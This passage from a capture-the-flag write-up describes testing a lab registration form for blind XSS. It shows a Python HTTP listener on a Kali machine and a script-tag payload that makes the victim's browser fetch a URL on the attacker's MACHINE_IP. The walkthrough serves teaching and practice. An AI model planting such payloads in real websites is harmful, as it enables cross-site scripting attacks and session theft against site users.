 Since any xss vulnerabilities here will be blind we will need to send a response to our attacking machine, to do this we can run an http server using python

```console
┌──(kali㉿kali)-[~/Whats_Your_Name]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) 
```

We will fill out each text box with javascript code(`<script>fetch('http://MACHINE_IP/name')</script>`) that will send a request to http server we have on our attacking machine, each request is different so we know which one is vulnerable to xss

![XSS test](/assets/img/CTFs/Whats_Your_Name/xss_test1.jpg)

Unfortunately we get an alert that tells us our registration failed due to the "username" row being too long

![Registration Failed](/assets/img/CTFs/Whats_Your_Name/reg_failed.jpg)

So we just change the username row and try again

![XSS Test](/assets/img/CTFs/Whats_Your_Name/xss_test2.jpg)
